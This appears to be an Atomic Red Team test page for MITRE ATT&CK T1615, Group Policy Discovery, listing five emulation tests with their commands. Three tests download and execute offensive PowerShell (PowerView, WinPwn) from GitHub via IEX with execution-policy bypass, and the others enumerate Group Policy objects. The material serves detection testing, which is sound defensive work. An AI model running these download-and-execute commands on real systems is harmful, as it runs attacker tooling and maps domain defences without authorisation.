 # T1615 - Group Policy Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1615)
<blockquote>Adversaries may gather information on Group Policy settings to identify paths for privilege escalation, security measures applied within a domain, and to discover patterns in domain objects that can be manipulated or used to blend in the environment. Group Policy allows for centralized management of user and computer settings in Active Directory (AD). Group policy objects (GPOs) are containers for group policy settings made up of files stored within a predicable network path <code>\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\</code>.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Adversaries may use commands such as <code>gpresult</code> or various publicly available PowerShell functions, such as <code>Get-DomainGPO</code> and <code>Get-DomainGPOLocalGroup</code>, to gather information on Group Policy settings.(Citation: Microsoft gpresult)(Citation: Github PowerShell Empire) Adversaries may use this information to shape follow-on behaviors, including determining potential attack paths within the target network as well as opportunities to manipulate Group Policy settings (i.e. [Domain Policy Modification](https://attack.mitre.org/techniques/T1484)) for their benefit.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Display group policy information via gpresult](#atomic-test-1---display-group-policy-information-via-gpresult)

- [Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView](#atomic-test-2---get-domaingpo-to-display-group-policy-information-via-powerview)

- [Atomic Test #3 - WinPwn - GPOAudit](#atomic-test-3---winpwn---gpoaudit)

- [Atomic Test #4 - WinPwn - GPORemoteAccessPolicy](#atomic-test-4---winpwn---gporemoteaccesspolicy)

- [Atomic Test #5 - MSFT Get-GPO Cmdlet](#atomic-test-5---msft-get-gpo-cmdlet)


<br/>

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit
Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy
Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #5 - MSFT Get-GPO Cmdlet
The Get-GPO cmdlet gets one Group Policy Object (GPO) or all the GPOs in a domain. Tested on Windows Server 2019 as a domain user with computer joined to domain. Reference: https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** 52778a8f-a10b-41a4-9eae-52ddb74072bf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpo_output | The output of the Get-GPO cmdlet | String | $env:temp&#92;GPO_Output.txt|
| gpo_param | You can specify a GPO by its display name or by its globally unique identifier (GUID) to get a single GPO, or you can get all the GPOs in the domain through the All parameter | string | -All|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-GPO -Domain $ENV:userdnsdomain #{gpo_param} >> #{gpo_output}
```

#### Cleanup Commands:
```powershell
del $env:temp\GPO_Output.txt -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Add Rsat.ActiveDirectory.DS
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
##### Description: Add Rsat.GroupPolicy.Management.Tools ###Two RSAT Modules needed for this to work on Win10, WinServer 2019 works by default. This will take a long time (almost 2 minutes) to install RSAT Manually###.
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0
```




<br/>
